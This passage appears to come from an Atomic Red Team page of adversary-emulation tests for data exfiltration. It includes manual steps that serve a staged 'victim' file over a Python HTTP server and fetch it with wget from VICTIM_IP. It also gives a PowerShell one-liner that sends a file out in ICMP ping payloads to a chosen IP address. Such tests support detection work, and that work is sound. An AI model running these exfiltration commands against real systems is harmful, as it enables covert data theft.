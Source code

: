 



#### Run it with these steps! 
1. Victim System Configuration:

    mkdir /tmp/victim-staging-area
    echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

2. Using Python to establish a one-line HTTP server on victim system:

    cd /tmp/victim-staging-area
    python -m SimpleHTTPServer 1337

3. To retrieve the data from an adversary system:

    wget http://VICTIM_IP:1337/victim-file.txt







<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - ICMP
Exfiltration of specified file over ICMP protocol.

Upon successful execution, powershell will utilize ping (icmp) to exfiltrate notepad.exe to a remote address (default 127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** dd4b4421-2e25-4593-90ae-7021947ad12e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to be exfiltrated. | path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent. | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path #{input_file} -Encoding Byte -ReadCount 1024) { $ping.Send("#{ip_address}", 1500, $Data) }
```





